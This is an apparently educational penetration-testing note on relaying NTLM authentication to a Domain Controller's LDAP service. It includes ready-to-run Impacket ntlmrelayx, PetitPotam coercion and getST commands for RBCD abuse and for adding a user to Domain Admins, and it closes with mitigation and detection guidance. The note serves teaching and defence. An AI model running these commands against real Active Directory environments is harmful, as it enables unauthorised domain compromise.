

# 36.13 LDAP Relay

## 1. Introduction & Theory
LDAP Relaying is a highly effective attack technique in Active Directory (AD) environments. While SMB relaying is commonly known and often mitigated by SMB Signing, LDAP relaying takes advantage of the Lightweight Directory Access Protocol (LDAP) and its lack of default protections in many environments.

When an attacker captures an NTLM authentication request, they can relay it to the Domain Controller's LDAP or LDAPS service. If successful, the attacker authenticates as the victim user to the directory service. The level of compromise depends on the privileges of the relayed account. If a highly privileged account (like a Domain Admin or an Exchange Server) is relayed, the attacker can manipulate AD objects, create new users, modify access control lists, or configure Resource-Based Constrained Delegation (RBCD).

LDAP Relaying fundamentally exploits the NTLM challenge-response mechanism. NTLM is a challenge-response protocol that does not inherently bind the authentication to the specific service or channel being accessed (unless protections like Channel Binding Tokens (CBT) and LDAP Signing are strictly enforced).

### Key Differences Between SMB Relay and LDAP Relay
- **Protocol Context:** SMB relay grants access to file shares and RPC endpoints, whereas LDAP relay grants access to the directory service (AD database).
- **Default Defenses:** SMB signing is often enforced on Domain Controllers by default, making SMB relay to DCs impossible. However, LDAP signing and channel binding were historically not enforced by default, leaving the LDAP interface vulnerable to relayed authentication.
- **Payloads:** SMB relay payloads typically involve command execution (via PsExec/WMI) or SAM dumping. LDAP relay payloads involve directory modifications (adding users to groups, modifying attributes, creating machine accounts).

## 2. ASCII Diagram of Attack Flow



## 3. Attack Mechanics
The NTLM authentication protocol operates in three main messages:
1. **NEGOTIATE_MESSAGE (Type 1):** The client indicates capabilities and initiates the authentication.
2. **CHALLENGE_MESSAGE (Type 2):** The server replies with a challenge (an 8-byte random number).
3. **AUTHENTICATE_MESSAGE (Type 3):** The client encrypts the challenge with its NTLM hash and sends the response.

In a relay attack, the attacker places themselves in the middle. When a victim attempts to authenticate to the attacker (e.g., via LLMNR poisoning or coerced authentication like PetitPotam), the attacker takes the Type 1 message and forwards it to the target DC over LDAP. The DC replies with a Type 2 challenge, which the attacker forwards back to the victim. The victim computes the Type 3 response and sends it to the attacker, who forwards it to the DC.

Because the DC's LDAP service sees a valid response to its challenge, it authenticates the session under the identity of the victim. 

### Why is this possible?
- **Lack of LDAP Signing:** If LDAP signing is not required, the communication after authentication is not signed. The attacker can inject LDAP modification requests into the session.
- **Lack of Channel Binding:** If Channel Binding is not enforced, NTLM over LDAPS is vulnerable because the authentication layer (NTLM) is unaware of the transport layer (TLS). The attacker forwards the NTLM messages through the TLS tunnel established by the attacker.

## 4. Prerequisites
To successfully execute an LDAP relay attack, several conditions must be met:
1. **Source of Authentication:** The attacker must receive incoming NTLM authentication from a victim. This is typically achieved via:
   - LLMNR/NBT-NS Poisoning (Responder).
   - Coerced Authentication (PetitPotam, PrinterBug, ShadowCoerce, DFSCoerce).
   - Cross-Protocol Relaying (e.g., HTTP to LDAP). Note: SMB to LDAP relay is largely dead due to the MIC (Message Integrity Code) in modern NTLMv2, unless specific vulnerabilities (like Drop the MIC - CVE-2019-1040) are unpatched.
2. **Victim Privileges:** The relayed account must have the necessary privileges to perform the desired LDAP action. For example, to create a machine account, the victim could be any standard user (due to default `MachineAccountQuota=10`). To modify `msDS-AllowedToActOnBehalfOfOtherIdentity` on an object, the victim must have `WriteProperty` over that object.
3. **Target Vulnerability:** The target Domain Controller must not enforce LDAP Signing (for relaying to `ldap://`) or must not enforce LDAP Channel Binding (for relaying to `ldaps://`).

## 5. Execution

The primary tool for this attack is `ntlmrelayx.py` from the Impacket suite.

### Scenario A: Dumping Domain Information
If the relayed user has read access (most standard users do), you can dump the directory.
```bash
ntlmrelayx.py -t ldap://192.168.1.10 -i
# Once a connection is caught, you get an interactive LDAP shell
```
Inside the interactive shell:
```text
ldap> search (objectClass=user)
ldap> dump
```

### Scenario B: Creating a Computer Account and Exploiting RBCD
Resource-Based Constrained Delegation (RBCD) allows the owner of a computer object to specify who can delegate authentication to it. If the attacker relays the authentication of a user who has write access to a target computer object (e.g., the machine account itself or a user with `GenericWrite`), they can configure RBCD.

First, set up `ntlmrelayx` to target the DC's LDAP and perform the RBCD attack against a specific target server (`TARGETSRV$`).
```bash
sudo ntlmrelayx.py -t ldap://192.168.1.10 --delegate-access -smb2support
```
Next, coerce the target server to authenticate to the attacker. For example, using PetitPotam against the target server:
```bash
python3 petitpotam.py 192.168.1.100 192.168.1.50
# 192.168.1.100 = Attacker IP
# 192.168.1.50 = Target Server IP
```
When `ntlmrelayx` catches the authentication from `TARGETSRV$`, it creates a new computer account in AD (since default `MachineAccountQuota` is 10, any user can do this, but since we relayed `TARGETSRV$`, we use its context). 
`ntlmrelayx` will:
1. Create a new random machine account (e.g., `WRKSTN$`).
2. Modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of `TARGETSRV$` to allow `WRKSTN$` to delegate to it.

After success, use `getST.py` to obtain a service ticket as an administrator (e.g., `Administrator`) using the newly created machine account.
```bash
getST.py -spn cifs/TARGETSRV.domain.local -impersonate Administrator -dc-ip 192.168.1.10 domain.local/WRKSTN$:password
```
Finally, use the generated ticket (exported to `KRB5CCNAME`) to access the target server:
```bash
export KRB5CCNAME=Administrator.ccache
smbclient.py -k -no-pass @TARGETSRV.domain.local
```

### Scenario C: Privilege Escalation (Adding to Group)
If the relayed account has permissions to modify group membership (e.g., Account Operators, or a delegated admin), you can instruct `ntlmrelayx` to add your controlled user to a high-privileged group like Domain Admins.
```bash
sudo ntlmrelayx.py -t ldap://192.168.1.10 -c "add user attacker to group 'Domain Admins'" --escalate-user attacker
```

## 6. Defensive Mechanisms & Mitigation

### Enforcing LDAP Signing
By default, Windows Server does not mandate LDAP signing for simple binds or SASL (Negotiate, Kerberos, NTLM) binds. To prevent LDAP relaying:
- **Domain Controllers:** Configure the Group Policy: `Domain controller: LDAP server signing requirements` to `Require signing`.
- **Clients:** Configure the Group Policy: `Network security: LDAP client signing requirements` to `Require signing`.
When enforced, the DC will reject LDAP requests that are not signed. Since the attacker cannot forge the LDAP signature (as they do not possess the victim's NTLM hash or session key), the relay attack fails.

### Enforcing LDAP Channel Binding
If the attacker relays to LDAPS (port 636), LDAP signing is implicitly provided by the TLS tunnel. However, this is still vulnerable unless Channel Binding is enforced.
- Set the registry key `LdapEnforceChannelBinding` on DCs to `2` (Strict).
This ensures that the inner NTLM authentication is cryptographically bound to the outer TLS session. Since the attacker establishes the TLS session but the victim initiates the NTLM authentication, the bindings will mismatch, and the DC will reject the authentication.

### Disabling NTLM
The most robust defense is completely disabling NTLM in the environment and relying strictly on Kerberos, which is not susceptible to this type of relay attack due to mutual authentication and timestamp requirements.
- Use the `Network security: Restrict NTLM` policies to audit and eventually block NTLM traffic.

### Modifying Default Active Directory Settings
- **MachineAccountQuota:** Set `ms-DS-MachineAccountQuota` to `0` to prevent standard users (and relayed standard accounts) from creating new computer objects in the domain.

## 7. Detection Strategies
- **Event ID 2889:** Logged when an unsigned LDAP bind is performed. This is crucial for identifying legacy applications before enforcing LDAP signing, and for detecting ongoing relay attacks when signing is not enforced.
- **Event ID 4624:** Monitor for suspicious NTLM authentications coming from unexpected IP addresses (the attacker's IP). Look for Logon Type 3 (Network).
- **Event ID 5136:** Directory Service Changes. Monitor for unexpected modifications to critical attributes like `msDS-AllowedToActOnBehalfOfOtherIdentity`, `servicePrincipalName`, or group memberships.
- **Event ID 4741:** A computer account was created. Frequent or anomalous computer account creations by non-administrative accounts can indicate the setup phase of an RBCD attack.

## Real-World Attack Scenario

During a Red Team exercise, the objective was to achieve Domain Admin privileges starting from a standard user workstation. The network had strong segmentation, but domain controllers were accessible on standard LDAP ports.

**The Context**
Initial enumeration confirmed that the target Domain Controller did not enforce LDAP signing and the domain's `MachineAccountQuota` was left at the default value of 10. The attacker aimed to exploit a vulnerable service on a file server to coerce authentication and execute a Resource-Based Constrained Delegation (RBCD) attack.

**The Execution**
1.  **Preparation:** The attacker configured `ntlmrelayx.py` to listen for incoming authentication and relay it to the DC's LDAP service. The tool was instructed to create a new machine account and grant it delegation rights over the coerced system.
    `ntlmrelayx.py -t ldap://10.10.10.5 --delegate-access -smb2support`
2.  **The Trigger:** To force the file server to authenticate, the attacker used a coercion script pointing back to the attacker's machine.
3.  **The Relay:** The file server sent an NTLM authentication request to the attacker's machine. `ntlmrelayx.py` intercepted this and relayed it to the DC via LDAP.
4.  **The Outcome:** Because the DC didn't require LDAP signing, it accepted the relayed authentication. Acting as the file server, `ntlmrelayx.py` created a new machine account and modified the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the file server to allow the new machine account to impersonate users to it. The attacker then used `getST.py` to request a Kerberos ticket for the Domain Admin user to the file server, gaining complete control over it.

## 8. Chaining Opportunities
- **[[14 - LLMNR NBT-NS Poisoning]]:** Used to capture the initial NTLM authentication required for the relay.
- **Coerced Authentication:** Exploits like PetitPotam or DFSCoerce are routinely chained with LDAP relaying to force high-privileged machine accounts to authenticate to the attacker.
- **[[17 - ACL Abuse]]:** The outcome of the LDAP relay often involves modifying ACLs or leveraging existing ACLs (like `WriteProperty` for RBCD).

## 9. Related Notes
- [[02 - NTLM Protocol Deep Dive]]
- [[21 - Resource-Based Constrained Delegation (RBCD)]]
- [[12 - SMB Relay Attacks]]
